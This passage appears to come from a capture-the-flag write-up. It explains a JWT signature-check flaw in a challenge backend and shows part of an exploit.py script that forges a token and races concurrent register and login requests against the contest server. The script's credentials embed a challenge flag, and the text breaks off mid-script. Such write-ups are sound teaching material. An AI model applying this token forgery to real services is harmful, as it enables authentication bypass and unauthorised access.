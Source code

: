 ```js
}
```

The parts of the JWT token are split by `.` into `parts`. Notice that the real signature is parsed as `parts[parts.length - 1]`, which is calculated as `parts[parts.length - 2]`, but the actual payload processed further is parsed as `parts[1]`. Basically, the actual payload is not what the signature is calculated on and can be tampered with.

When we put this all together, our "malicious token" includes a "malicious payload" that sets `is_d4rk_pr1nc3ss` to `true`; it looks like this:

```python
malicious_token = f"{parts[0]}.{malicious_payload_b64}.{parts[1]}.{parts[2]}"
```

This is all done in `exploit.py`
```python
import aiohttp
import asyncio
import base64
import json
import uuid

"""
export HTTP_PROXY=http://127.0.0.1:8080
export HTTPS_PROXY=http://127.0.0.1:8080
"""

# Server URL
BASE_URL = "http://exp.cybergame.sk:7000/secretbackend"

# Basic auth credentials
AUTH = aiohttp.BasicAuth("pr1ncess", "SK-CERT{0ff_by_4_s1ngle_sl4sh_f836a8b1}")

async def register_and_login(session):
    username = f"hacker_{uuid.uuid4()}"
    password = "hacker"
    email = 'hacker@hacker.hacker'
    
    data = {
        "username": username,
        "password": password,
        "email": email
    }
    
    # Start register request but don't wait for response
    register_task = session.post(
        f"{BASE_URL}/api/register",
        json=data,
        auth=AUTH
    )
    
    # Immediately start login request
    login_data = {
        "username": username,
        "password": password
    }
    login_task = session.post(
        f"{BASE_URL}/api/login",
        json=login_data,
        auth=AUTH
    )
    
    # Wait for both requests to complete
    register_response, login_response = await asyncio.gather(register_task, login_task)
```